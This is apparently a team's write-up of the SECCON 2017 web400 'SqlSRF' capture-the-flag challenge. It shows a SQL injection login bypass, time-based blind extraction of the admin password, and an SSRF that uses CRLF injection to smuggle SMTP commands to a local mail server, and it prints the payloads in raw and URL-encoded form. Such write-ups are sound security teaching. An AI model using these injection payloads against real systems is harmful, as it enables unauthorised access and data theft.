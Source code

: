 ```yaml
---
layout: post
title: SqlSRF
category: SECCON 2017
---
```


Hello guys , so as always i will share me and my team solution for web400 

First , i would like to thanks all orgz for this ctf , really enjoyed and make me work hard to solve this and others web and crypto challenge

So this task was in first stage simple login form and source code of index.cgi page 

![login](https://user-images.githubusercontent.com/7364615/33808035-018600f8-dde0-11e7-8041-59ca86648b99.PNG)

And this is source code , the best part the sql query 

![source_code](https://user-images.githubusercontent.com/7364615/33808043-294d5866-dde0-11e7-9ff2-eed10fea701e.png)

So what here we can do is inject our payload using username , we can't use password first because its not in the query 
and second it was encrypted with unknown cipher

Lets break this login by just using 'union select'

payload :  "union select 'admin'--"

but wait ? our password is encrypted before the check 

```
$row[0] eq &encrypt($q->param('pass'))
```

So how we can make this true and login ? , lets audit more the code and look for our hope :D 
```
($q->param('save') eq '1' ? $q->cookie(-name=>'remember', -value=>&encrypt($user), -expires=>'+1M') : undef)
```

So if we check the Remember Me option we will get our username used to login encrypted into remember cookie 

Okay , lets try with username : admin and password :anything 

![image](https://user-images.githubusercontent.com/7364615/33808116-3b700182-dde1-11e7-960d-a8f5c7d80c97.png)

This is username (admin) encrypted , lets use it in the payload to make the check True 

```
username : 'union select '58474452dda5c2bdc1f6869ace2ae9e3
password : admin
```

Oh we are in now :D 

![image](https://user-images.githubusercontent.com/7364615/33808129-6f7c57c8-dde1-11e7-953f-ee43da1e672b.png)

But "* No.2 is only for "admin" user." :(

Need to login with admin , so we need to get the real password from database 'SQLite' 

Using this https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet to help me make thinks easier

So lets try "Time-based data extraction"

So what i did first is figure out the time for True and False query 

Here when query True : Time = 1.37

![delay1](https://user-images.githubusercontent.com/7364615/33808192-77963e78-dde2-11e7-8daa-21cb07378e11.PNG)

And when query False Time = 500 ms

![delay2](https://user-images.githubusercontent.com/7364615/33808193-7a36cbfc-dde2-11e7-82bd-76e5c42371ca.PNG)

Then start code to make it fast and easy 

This is my script : [Script](https://github.com/chamli/Write_Up_Ctf/blob/master/SECCON_2017/web400.py)

Just decrease the time in the script due to some problem , so its depend 

Then after the script end it print for us the password 
```
password : Yes!Kusomon!!
```

Login as Admin like a BOSS :D 

Next stage , as the name of Task it will be "SSRF"

Like we see here 

![image](https://user-images.githubusercontent.com/7364615/33808245-634ca9a6-dde3-11e7-8ac4-ae2be598554a.png)

port 25 is open only in local 

With the help of orange bugs again :D 

https://lists.gnu.org/archive/html/bug-wget/2017-03/msg00018.html

Make me exploit it fast and without wasting time , using CRLF will break this and finish this stage 

So my last payload was 

```
127.0.0.1
HELO admin
MAIL FROM:<myemail@gmail.com>
RCPT TO:<root@ymzk01.pwn>
DATA
From:myemail@gmail.com
To:root@ymzk01.pwn
Subject:give me flag
give me flag
.
QUIT
:25/
```

Then encode it to bypass some problem

```
127.0.0.1%0D%0AHELO%20admin%0D%0AMAIL%20FROM%3A%3Cmyemail%40gmail.com%3E%0D%0ARCPT%20TO%3A%3Croot%40ymzk01.pwn%3E%0D%0ADATA%0D%0AFrom%3Amyemail%40gmail.com%0D%0ATo%3Aroot%40ymzk01.pwn%0D%0ASubject%3Agive%20me%20flag%0D%0Agive%20me%20flag%0D%0A.%0D%0AQUIT%0D%0A%:25/
```

And again break this stage and Get our email 


![image](https://user-images.githubusercontent.com/7364615/33808286-f960ec40-dde3-11e7-8f41-dbdda389ed18.png)

Use the cookie to decrypt our flag :D 

![image](https://user-images.githubusercontent.com/7364615/33808293-1567d23c-dde4-11e7-8ce3-ed401edcf0d9.png)

```
SECCON{SSRFisMyFriend!}
```

